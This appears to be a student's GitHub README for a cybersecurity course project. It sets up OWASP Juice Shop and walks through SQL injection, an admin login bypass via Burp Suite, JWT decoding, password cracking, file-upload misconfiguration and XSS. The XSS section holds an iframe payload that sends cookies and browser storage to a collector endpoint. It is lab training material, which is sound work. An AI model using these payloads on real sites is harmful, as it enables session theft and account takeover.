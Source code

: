 # project2
## Description:
This project focuses on practical cybersecurity training by exploring web application vulnerabilities, writing professional reports, solving Capture The Flag (CTF) challenges, and mastering network scanning. It includes hands-on tasks with OWASP Juice Shop and TryHackMe's "Root Me" CTF, enhancing both offensive and defensive skills. Additionally, it incorporates developing a custom Python-based Nmap tool, fostering scripting and network analysis expertise.

**Assessment Methods:**

**Practical Exploration:**

**Identifying and documenting at least 5 vulnerabilities in OWASP Juice Shop.**

**Rooting a machine in the "Root Me" CTF.**

**Tool Proficiency:**

**Running Nmap scans on the Metasploitable or CTF server to detect services and vulnerabilities.**

**Developing a custom Python-based Nmap scanner that performs similar functions.**

**Report Writing:**

**Submitting a well-structured vulnerability assessment report on Juice Shop findings.**

**Including analysis, impact, and mitigation for identified vulnerabilities.**

**Learning Methods:**

**Hands-on experimentation with OWASP Juice Shop and TryHackMe challenges.**

**Guided and independent use of Nmap.**

**Python scripting for network analysis.**

**Research on professional report-writing techniques.**

## Requirements:

**Juice Shop** 

**Metasploitable**

**Burp Suite**

**TryHackMe account**

**Nmap**

**Gobuster**

**Metasploit**

**Python**
### Vulnerabilities in OWASP Juice Shop

**Steps to Install docker and Exploring OWASP Juice Shop Vulnerabilities**

**Install Docker**

```
sudo apt install docker.io
```

```
sudo su
```

``
usermod -aG docker {{user-anun}}
``

```
su {{user-anun}}
```

Run 
```
docker pull bkimminich/juice-shop
```

Run 
```
docker run --rm -p 127.0.0.1:3000:3000 bkimminich/juice-shop
```

**Exposes port 3000 on your localhost, allowing you to access
Juice Shop via http://localhost:3000**

#### 1. SQL Injection
**About attack:** SQL Injection exploits improper handling of user inputs in SQL queries. If input fields or URL parameters are not properly sanitized or validated, attackers can inject malicious SQL code to manipulate the query.

**How it was detected:** 
Lets try to dump system with SQL prompts.
We have access to admin page, with some games of clicking buttons, we can find the mail of admin. Here it is.
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_08_45.png)
Login with the administration's user account.
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_11_10.png)
Access the administration section of the stor
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_03_14_12.png)

#### 2. Security Misconfiguration
Uploading leaks
in this page valide only images file  
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_04_51_36.png)
but we can upload other file too
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_04_52_28.png)
 for exampl .zip,pdf
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-02_11_29_25.png)
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-02_11_28_40.png)

#### 3. Broken Access Control
**Use boolean OR and write true expression. before login turn on burpsuite, catch traffic from proxy, throw repeater and click send.** 

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_14_50_16.png)


**Now get token from response part and use convertor for example https://jwt.io/**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2000-17-25.png)

**Now get hashing password,  use something algorithm for get true password, https://crackstation.net/  may be it weak...**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-04%2023-53-05.png)

**Congratulations!!!**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_15_02_45.png)
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-04_15_05_02.png)

#### 4. Cross-Site Scripting (XSS)

About attack: Cross-Site Scripting (XSS) is a type of security vulnerability in web applications where an attacker injects malicious scripts into trusted websites. These scripts run in the context of other users' browsers, potentially allowing the attacker to steal sensitive information like session cookies, manipulate website content, or perform unauthorized actions on behalf of the victim.

**There are many payloads for XSS attacks. Some of them can be found in the https://xss.js.org/**
The payload is 
```
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
```
**Injecting JavaScript into input fields like search or feedback forms.**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2002-52-29.png)

payload can be 
```
<iframe src="javascript:fetch('http://localhost:5000/receiver', {method: 'POST',headers: { 'Content-Type': 'application/json' },body: JSON.stringify({cookies: document.cookie,localStorage: JSON.stringify(localStorage),sessionStorage: JSON.stringify(sessionStorage)})});"> </iframe>
```
![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot%20from%202024-12-05%2002-54-11.png))

#### 5. Create the Hidden Page

**Exclude It from Navigation:**

**Do not link this page directly in the app's navigation bar or footer.**

![im1](https://github.com/Sonakhach/project2/blob/main/Screenshot_2024-12-05_16_52_37.png)
